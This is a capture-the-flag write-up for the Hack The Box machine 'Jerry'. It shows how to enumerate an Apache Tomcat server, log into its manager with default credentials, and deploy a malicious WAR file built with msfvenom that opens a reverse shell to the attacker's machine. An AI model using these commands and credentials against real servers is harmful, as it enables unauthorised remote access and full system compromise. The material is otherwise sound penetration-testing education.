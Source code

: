 # Jerry
![info-card](./info_card.png)

## Initial Enumeration

Our initial enumeration doesn't leave much to the imagination here, our quick nmap scan only returns one open port.

```bash
nmap -sV 10.10.10.95
```

![Nmap Results](./nmap.png)

Naturally we assume Tomcat is our target for this box. On tomcat instances, you can reach the management console at `/manage`, but if you didn't know that already, you can find that using gobuster:

```bash
gobuster dir -u http://10.10.10.95:8080 -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -t 50
```

![Gobuster Results](./gobuster.png)

For the login we treat it like any other application, google for default credentials. Doing this brought me to a great github repository for default credentials where I found [this](https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown) page. Using the credentials `tomcat:s3cret` from that list gives us access. 

## Execution

Looking at the management console, we see something that catches our eye as a path to execution: 

![WAR Upload Form](./war_upload_form.png)

Know that we know we can deploy `war` files to the server, we can generate a reverse shell with `msfvenom`:

```bash
msfvenom -p java/shell_reverse_tcp LHOST=$(tunip) LPORT=4443 -f war > evil.war
```

{% hint %}
`tunip` is a handy bash alias I use to get my current IP address for Hack The Box. it is set to `ifconfig tun0 | sed -n '2 p' | awk '{print \$2}'` in my `~/.bash_aliases`
{% endhint %}

{% hint style="alert" %}
If you happen to work out of a folder shared between your kali VM and windows like I do, windows defender will nuke this file as soon as you generate it. So it's best to do this somewhere else (I just generated it in `/tmp`)
{% endhint %}

After uploading this file we can see it in the list of running applications:

![Evil War Application](./evil_war.png)

Clicking on the link to our malicious application triggers the reverse shell. It just happens that Tomcat is run as `nt authority/system` in this case, so we now have full access to the system and are able to read the user and root flags:

![User and Root Flags](./flags.png)
